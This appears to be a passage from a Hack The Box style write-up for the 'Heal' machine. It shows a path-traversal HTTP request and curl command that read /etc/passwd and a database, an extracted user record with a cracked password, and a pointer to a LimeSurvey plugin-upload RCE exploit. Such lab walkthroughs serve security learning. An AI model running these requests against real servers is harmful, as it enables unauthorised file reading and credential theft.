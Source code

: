 During the PDF generation process, a request was made to the backend API hosted on `api.heal.htb`. This API endpoint handled the actual file retrieval based on a `filename` parameter.

By intercepting this request using a proxy like Burp Suite, and modifying the `filename` parameter, it was possible to perform a path traversal and read arbitrary files from the server.

Importantly, the API required an Authorization header containing a valid Bearer token issued after login. Without this token, the LFI request would be denied.

The resume creation app on `heal.htb` exported PDFs using the API endpoint:
```http
GET /download?filename=../../../../../../../etc/passwd HTTP/1.1
Host: api.heal.htb
Authorization: Bearer <JWT>
```
This allowed reading arbitrary files from the filesystem.

### 🔹 2.2 Sensitive Configurations Leaked
Extracted files using LFI:
- `/etc/nginx/sites-enabled/*.conf` → Revealed reverse proxy setup for services on `localhost:3000` and `3001`
- `../../config/database.yml` → Revealed SQLite DB paths:
    - `storage/development.sqlite3`
    - `storage/test.sqlite3`
    
Downloaded the databases:
```bash
curl -H "Authorization: Bearer <JWT>" \
  -o dev.sqlite3 "http://api.heal.htb/download?filename=../../storage/development.sqlite3"
```

### 🔹 2.3 User Credential Extraction
Opened `dev.sqlite3` and extracted credentials:
```bash
sqlite3 dev.sqlite3
sqlite> select * from users;
1|ralph@heal.htb|$2a$12$dUZ/O7...|...|Administrator|ralph|1
```
Password cracked via rockyou: `147258369`

### 🔹 2.4 LimeSurvey RCE (CVE-2021-44967)
The instance was running **LimeSurvey Community Edition Version 6.6**, which is affected by **CVE-2021-44967**. This vulnerability allows authenticated administrators to upload a plugin containing executable PHP code, which can lead to Remote Code Execution (RCE).

More information:
- https://ine.com/blog/cve-2021-44967-limesurvey-rce
- https://github.com/N4s1rl1/Limesurvey-6.6.4-RCE

Logged in to LimeSurvey with `ralph@heal.htb:147258369`
http://take-survey.heal.htb/index.php/admin/authentication/sa/login